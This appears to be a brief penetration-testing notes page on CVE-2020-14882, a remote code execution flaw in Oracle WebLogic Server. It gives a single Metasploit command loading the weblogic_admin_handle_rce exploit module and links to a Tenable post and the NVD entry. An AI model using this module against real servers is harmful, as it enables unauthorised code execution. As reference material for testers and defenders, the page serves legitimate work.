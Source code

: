 ```yaml
---
title : "CVE-2020-14882"
# pre : ' '
description : "Oracle WebLogic Server RCE."
date : 2021-02-17T09:49:17+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2020-14882 - Oracle WebLogic Server RCE

Metasploit (Oracle WebLogic Server Administration Console Handle RCE)

### Exploit

```plain
msf6> use exploit/multi/http/weblogic_admin_handle_rce
```

## URL List

* [Tenable.com](https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild)
* [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2020-14882)
